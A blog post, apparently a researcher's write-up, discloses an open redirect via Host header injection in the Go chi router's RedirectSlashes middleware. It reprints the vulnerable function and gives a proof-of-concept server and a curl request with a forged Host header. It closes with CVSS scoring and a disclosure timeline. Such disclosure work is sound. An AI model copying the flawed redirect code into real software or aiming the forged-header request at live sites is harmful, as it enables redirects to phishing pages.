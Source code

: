 ```yaml
---
title: "I Ran Free SAST Tools on chi and Found a GHSA"
date: 2025-06-29T09:11:02-07:00
draft: false
toc: true
images:
tags:
  - go
  - cve-analysis
---
```

[GHSA-vrw8-fxc6-2r93](https://github.com/go-chi/chi/security/advisories/GHSA-vrw8-fxc6-2r93) is a Host Header Injection issue in the [chi framework](https://github.com/go-chi/chi) which allows arbitrary redirect to any domain while redirecting slashes. I did not receive a CVE for this finding "Given the lower impact (can't be exploited in browser or email client)" (verbatim from the maintainers) - which I can agree with to some extent. I will say though, that lower impact vulnerabilities should also get CVEs, else there would be no CVSS "low" score CVEs. My slight disagreement is probably more influenced by me wanting CVEs to my name than a technical outlook. Having said that, GHSAs are pretty recognized too, and in these parts, we take what we get.

This is somewhat a part 2 of my [previous blog](https://baishya.xyz/posts/cve-2025-30161/) about using free SAST tools to find CVEs. I was particularly attracted to looking at go codebases (although my go skills are questionable at best) due to the large number of go vulnerabilities I have assessed for various reasons at work. The workflow is basically the same as described in the previous blog - so I will skip the details here. TL;DR: clone repo, run semgrep, profit $$$ (?)

## About chi
From the README:
> chi is a lightweight, idiomatic and composable router for building Go HTTP services. It's especially good at helping you write large REST API services that are kept maintainable as your project grows and changes. chi is built on the new context package introduced in Go 1.7 to handle signaling, cancelation and request-scoped values across a handler chain.

### Chi Middleware
One of chi's powerful features is middleware—modular functions that sit between the incoming request and your handlers. Middleware in Chi allows you to add cross-cutting behavior like logging, authentication, rate limiting, or CORS handling in a clean and reusable way. Middleware functions wrap around routes or groups of routes, making them easy to apply globally or selectively. This modularity helps keep your codebase maintainable and your concerns separated.

This is very similar to other popular frameworks such as Express, next.js or Django.

### Redirect Slashes Middleware
The RedirectSlashes middleware in the Chi router is a built-in middleware that automatically normalizes request URLs by handling trailing slashes. It ensures consistent routing behavior and helps avoid issues where `/foo` and `/foo/` are treated as different routes.

## GHSA-vrw8-fxc6-2r93

I am feeling lazy, and there is no mind-bending state-of-the-art exploitation technique here, so I'll just append the report I sent to the maintainers. (With the original `RedirectSlashes` function added in since the original code has been fixed. The maintainers also added a note which has been highlighted.)

### Summary
The `RedirectSlashes` function in `middleware/strip.go` is vulnerable to host header injection which leads to open redirect.

We consider this a **lower-severity** open redirect, as it can't be exploited from browsers or email clients (requires manipulation of a Host header). [Added by maintainers]

### Details
The `RedirectSlashes` method uses the Host header to construct the redirectURL 

```go
func RedirectSlashes(next http.Handler) http.Handler {
	fn := func(w http.ResponseWriter, r *http.Request) {
		var path string
		rctx := chi.RouteContext(r.Context())
		if rctx != nil && rctx.RoutePath != "" {
			path = rctx.RoutePath
		} else {
			path = r.URL.Path
		}
		if len(path) > 1 && path[len(path)-1] == '/' {
			if r.URL.RawQuery != "" {
				path = fmt.Sprintf("%s?%s", path[:len(path)-1], r.URL.RawQuery)
			} else {
				path = path[:len(path)-1]
			}
      // Host header used to create redirect URL here
			redirectURL := fmt.Sprintf("//%s%s", r.Host, path)
			http.Redirect(w, r, redirectURL, 301)
			return
		}
		next.ServeHTTP(w, r)
	}
	return http.HandlerFunc(fn)
}
```

The Host header can be manipulated by a user to be any arbitrary host. This leads to open redirect when using the `RedirectSlashes` middleware

### PoC
Create a simple server which uses the `RedirectSlashes` middleware
```go
package main

import (
	"fmt"
	"net/http"

	"github.com/go-chi/chi/v5"
	"github.com/go-chi/chi/v5/middleware" // Import the middleware package
)

func main() {
	// Create a new Chi router
	r := chi.NewRouter()

	// Use the built-in RedirectSlashes middleware
	r.Use(middleware.RedirectSlashes) // Use middleware.RedirectSlashes

	// Define a route handler
	r.Get("/", func(w http.ResponseWriter, r *http.Request) {
		// A simple response
		w.Write([]byte("Hello, World!"))
	})

	// Start the server
	fmt.Println("Starting server on :8080")
	http.ListenAndServe(":8080", r)
}
```
Run the server `go run main.go`

Once the server is running, send a request that will trigger the `RedirectSlashes` function with an arbitrary Host header
`curl -iL -H "Host: example.com" http://localhost:8080/test/`

Observe that the request will be redirected to example.com

```html
curl -L -H "Host: example.com" http://localhost:8080/test/

<!doctype html>
<html>
<head>
    <title>Example Domain</title>

    <meta charset="utf-8" />
    <meta http-equiv="Content-type" content="text/html; charset=utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style type="text/css">
    body {
        background-color: #f0f0f2;
        margin: 0;
        padding: 0;
        font-family: -apple-system, system-ui, BlinkMacSystemFont, "Segoe UI", "Open Sans", "Helvetica Neue", Helvetica, Arial, sans-serif;
... snipped ...
```
Without the host header, the response is returned from the test server
```
curl -L http://localhost:8080/test/

404 page not found
```

### Impact
An open redirect vulnerability allows attackers to trick users into visiting malicious sites. This can lead to phishing attacks, credential theft, and malware distribution, as users trust the application’s domain while being redirected to harmful sites.

### CVSS score
I had originally scored this CVE as a Medium severity CVE with a score of 5.1 (CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:A/VC:L/VI:L/VA:N/SC:N/SI:N/SA:N). This is the current score in the advisory.

Reflecting back, it can be argued that the score is 2.1 Low (CVSS:4.0/AV:N/AC:L/AT:P/PR:N/UI:A/VC:L/VI:L/VA:N/SC:N/SI:N/SA:N)

## Conclusion
This is another win for my free SAST tools experiment. FWIW, this is also the first security advisory published for `chi`. I am not entirely sure if this is the first vulnerability discovered in `chi`. I did try looking for CVEs but I did not find any - so I would like to believe this is the first.

Sneak peek into my fuzzing escapades - I gave up on fuzzing using AFL++ on popular C/C++ codebases - due to many skill issues. I prefer spending my time away from work doing non-security things (which is probably obvious given the inconsistent post history here and the basic content of the few blogs that are posted). Therefore I determined that I don't want to spend the time needed to dive into the completely unchartered territory of fuzzing C / C++ binaries. I did however find that go code can be fuzzed too - and that had a easier entry point for me personally. So, I pivoted to fuzzing go code instead. Did I find something? 🤷. Thank you for reading.

## Timeline
* March 5, 2025: Reported issue to chi maintainers through Github.
* June 6, 2025: Commented on report due to no response from chi maintainers. Received acknowledgement of report receipt.
* June 9, 2025: chi maintainers confirmed the issue.
* June 19, 2025: Fix released, GHSA published.
* June 29, 2025: Blog published.

